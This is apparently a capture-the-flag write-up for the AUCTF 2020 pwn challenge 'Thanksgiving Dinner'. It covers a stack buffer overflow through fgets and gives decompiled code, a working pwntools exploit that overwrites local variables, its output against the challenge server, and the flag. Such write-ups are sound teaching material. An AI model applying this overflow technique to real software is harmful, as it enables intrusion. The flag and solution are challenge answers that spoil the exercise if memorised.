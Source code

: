 # AUCTF 2020

## Thanksgiving Dinner

> 408
> 
> I just ate a huge dinner. I can barley eat anymore... so please don't give me too much!
> 
> `nc challenges.auctf.com 30011`
>
> Note: ASLR is disabled for this challenge
>
> Author: nadrojisk
>
> [turkey](turkey)

Tags: _pwn_


### Research

#### Checksec

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

No stack canary, look for buffer overflow first.

#### Decompile with Ghidra, cutter.re, r2, etc...

```
void vulnerable(void)
{
  char local_30 [16];
  int local_20;
  int local_1c;
  int local_18;
  int local_14;
  int local_10;
  
  puts("Hey I heard you are searching for flags! Well I\'ve got one. :)");
  puts("Here you can have part of it!");
  puts("auctf{");
  puts("\nSorry that\'s all I got!\n");
  local_10 = 0;
  local_14 = 10;
  local_18 = 0x14;
  local_1c = 0x14;
  local_20 = 2;
  fgets(local_30,0x24,stdin);
  if ((((local_10 == 0x1337) && (local_14 < -0x14)) && (local_1c != 0x14)) &&
     ((local_18 == 0x667463 && (local_20 == 0x2a)))) {
    print_flag();
  }
  return;
}
```

`fgets` will read 35 (0x24 - 1) characters into `local_30` overrunning local_20 - local10.  The required conditions to get the flag are pretty clear.


### Exploit

#### Code

```
#!/usr/bin/env python3

from pwn import *

payload  = 16 * b'A'
payload += p32(0x2a)
payload += p32(0x0)
payload += p32(0x667463)
payload += p32(2**32 - 0x14 - 1)
payload += p32(0x1337)

#p = process('./turkey')
p = remote('challenges.auctf.com', 30011)
p.recvuntil('got!\n\n')
p.sendline(payload)
p.stream()
```

#### Output

```
# ./exploit.py
[x] Opening connection to challenges.auctf.com on port 30011
[x] Opening connection to challenges.auctf.com on port 30011: Trying 157.245.252.113
[+] Opening connection to challenges.auctf.com on port 30011: Done
Wait... you aren't supposed to be here!!
auctf{I_s@id_1_w@s_fu11!}
```

#### Flag

```
auctf{I_s@id_1_w@s_fu11!}
```
